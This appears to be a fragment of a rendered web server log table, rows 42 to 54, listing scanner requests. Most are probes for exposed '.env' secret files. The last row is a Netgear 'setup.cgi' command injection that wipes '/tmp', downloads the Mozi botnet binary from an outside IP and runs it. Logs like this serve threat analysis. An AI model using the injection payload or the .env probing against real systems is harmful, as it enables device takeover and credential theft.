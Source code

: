 |  42 |                     1 | GET /chai/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  43 |                     1 | GET /Hash/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  44 |                     1 | GET /info/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  45 |                     1 | POST /HNAP1/ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                            |
|  46 |                     1 | \x00\x0E8\xA6\xDC\x01\x8B\xC2xwt\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                             |
|  47 |                     1 | GET /target/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  48 |                     1 | GET /packed/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  49 |                     1 | GET /mailer/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  50 |                     1 | GET /hasura/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                        |
|  51 |                     1 | GET /items/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  52 |                     1 | GET /utils/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  53 |                     1 | \x16\x03\x01\x00\x91\x01\x00\x00\x8D\x03\x03\x12\x08Ke\xF7\xC4\xD9\xB8R\x5C=\x96\x1Eo-\x96\xC2\xE9\xBD\xAD\xE4z\xE3k\x08\xF1\xE3\xF3\x81\x1E\xEB\x1D\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                           |
|  54 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://36.49.65.2:47727/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                        |